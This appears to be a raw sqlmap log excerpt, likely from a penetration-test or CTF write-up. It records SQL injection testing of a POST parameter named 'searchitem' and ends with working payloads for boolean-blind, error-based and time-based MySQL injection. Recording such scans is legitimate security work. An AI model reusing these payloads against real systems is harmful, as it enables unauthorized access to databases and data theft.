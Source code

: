 ```text
[22:05:36] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[22:05:36] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:06:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:06:18] [WARNING] reflective value(s) found and filtering out
[22:06:18] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:06:19] [INFO] testing 'Generic inline queries'
[22:06:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[22:06:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[22:06:22] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="is")
[22:06:22] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:06:22] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[22:06:22] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[22:06:22] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[22:06:22] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[22:06:22] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[22:06:22] [INFO] testing 'MySQL inline queries'
[22:06:22] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:06:22] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[22:06:22] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[22:06:22] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[22:06:22] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[22:06:22] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[22:06:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:06:33] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:06:33] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:06:33] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[22:06:33] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:06:33] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:06:33] [INFO] target URL appears to have 3 columns in query
[22:06:33] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[22:06:33] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-2346' OR 3692=3692#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=test' AND GTID_SUBSET(CONCAT(0x7176717871,(SELECT (ELT(2162=2162,1))),0x7171766b71),2162)-- XNGt

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=test' AND (SELECT 2073 FROM (SELECT(SLEEP(5)))kWHq)-- zuOM

    Type: UNION query
```
